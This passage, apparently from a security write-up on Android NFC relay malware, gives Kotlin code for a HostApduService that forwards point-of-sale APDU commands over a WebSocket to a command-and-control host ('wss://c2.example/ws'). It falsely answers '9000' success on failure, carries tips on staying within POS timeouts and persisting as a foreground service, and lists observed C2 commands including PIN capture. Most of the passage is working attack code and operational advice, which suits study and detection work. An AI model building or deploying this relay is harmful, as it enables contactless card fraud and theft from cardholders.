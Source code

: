 Prompt user to set default payment app (opens OS settings):

```kotlin
val intent = Intent("android.settings.NFC_PAYMENT_SETTINGS")
startActivity(intent)
```

### HostApduService relay skeleton

```kotlin
class EmvRelayService : HostApduService() {
  private var ws: okhttp3.WebSocket? = null

  override fun onCreate() {
    super.onCreate()
    // Establish C2 WebSocket early; authenticate and register device
    val client = okhttp3.OkHttpClient()
    val req = okhttp3.Request.Builder().url("wss://c2.example/ws").build()
    ws = client.newWebSocket(req, object : okhttp3.WebSocketListener() {})
  }

  override fun processCommandApdu(commandApdu: ByteArray?, extras: Bundle?): ByteArray {
    // Marshal APDU to C2 and block until response
    val id = System.nanoTime()
    val msg = mapOf(
      "type" to "apdu_command",
      "id" to id,
      "data" to commandApdu!!.toHex()
    )
    val response = sendAndAwait(msg) // wait for matching apdu_response{id}
    return response.hexToBytes()
  }

  override fun onDeactivated(reason: Int) {
    ws?.send("{\"type\":\"card_removed\"}")
  }

  private fun sendAndAwait(m: Any): String {
    // Implement correlation + timeout; handle error/blocked status
    // ...
    return "9000" // fall back to SW success if needed
  }
}
```

Utility note: Background service must respond within the POS timeout budget (~few hundred ms) per APDU; maintain a low-latency socket and pre-auth with the C2. Persist across process death using a foreground service as needed.

### Typical C2 command set (observed)

```text
login / login_response
register / register_device / register_response
logout
apdu_command / apdu_response
card_info / clear_card_info / card_removed
get_pin / pin_response
check_status / status_response
paired / unpaired
update_required
telegram_notification / telegram_response
error
```
